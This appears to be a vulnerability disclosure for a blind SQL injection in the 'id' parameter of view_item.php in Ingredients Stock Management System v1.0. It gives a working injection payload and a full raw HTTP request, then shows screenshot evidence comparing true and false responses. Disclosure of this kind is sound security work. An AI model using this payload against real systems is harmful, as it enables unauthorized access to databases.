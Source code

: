 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/items/view_item.php

Vulnerability location: /isms/admin/items/view_item.php, id

db_name = isms_db;length=7

[+] Payload: isms/admin/items/view_item.php?id=3%27%20and%20length(database())%20=%207--+ // Leak place ---> id

```sql
GET /isms/admin/items/view_item.php?id=4%27%20and%20length(database())%20=%207--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

When length (database ()) = 7
![image](https://user-images.githubusercontent.com/54017627/179384104-aad2194c-bc8d-4641-9d99-563929360968.png)


When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179384107-de3398fa-76fe-49d8-b566-15ffef6168d8.png)
